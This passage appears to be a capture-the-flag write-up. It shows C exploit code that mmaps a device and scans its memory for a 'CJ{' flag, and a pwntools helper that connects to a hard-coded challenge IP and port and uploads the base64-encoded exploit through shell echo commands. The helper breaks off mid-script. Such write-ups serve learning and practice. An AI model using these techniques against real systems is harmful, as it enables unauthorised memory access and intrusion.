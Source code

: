 ```c
void _pause(const char *msg) {
    printf("[*] pause: %s\n", msg);
    getchar();
}

int main(int argc, char *argv[]){
    fd = open(DEVICE, O_RDWR);
    if (fd < 0){
        error("open");
    }

    void* memory = mmap((void*)START_ADDR, MEMORY_SIZE, PROT_READ, MAP_SHARED, fd, 0);
    if (memory == MAP_FAILED){
        error("mmap");
    }

    for(int i = 0x0; i < MEMORY_SIZE; i += 0x1000){
        if(strstr(memory + i, "CJ{")){
            printf("[*] Found flag: %s\n", memory + i);
            printf("[*] Flag address: %p\n", memory + i);
            break;
        }
    }
}
```
{% endcode %}

below is the helper script to transfer the exploit to remote:

{% code title="exp.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
file = './exploit'
context.log_level = 'info'
context.newline = b'\r\n'
host, port = '152.42.183.87', 10022

# =========================================================
#                         EXPLOITS
# =========================================================
is_root = False
def run(cmd):
    ch = b'# '
    if not is_root:
        ch = b'$ '
    io.sendlineafter(ch, cmd)
    return io.recvline()

def solve_pow():
    io.recvuntil(b'work: ')
    cmd = io.recvline()
    print(cmd)

def upload_payload():
    with open(file, 'rb') as f:
        payload = base64.b64encode(f.read()).decode()    
    for i in range(0, len(payload), 512):
        print(f'Uploading... {i:x} / {len(payload):x}')
        run(f'echo "{payload[i:i+512]}" >> /tmp/b64exp'.encode())
```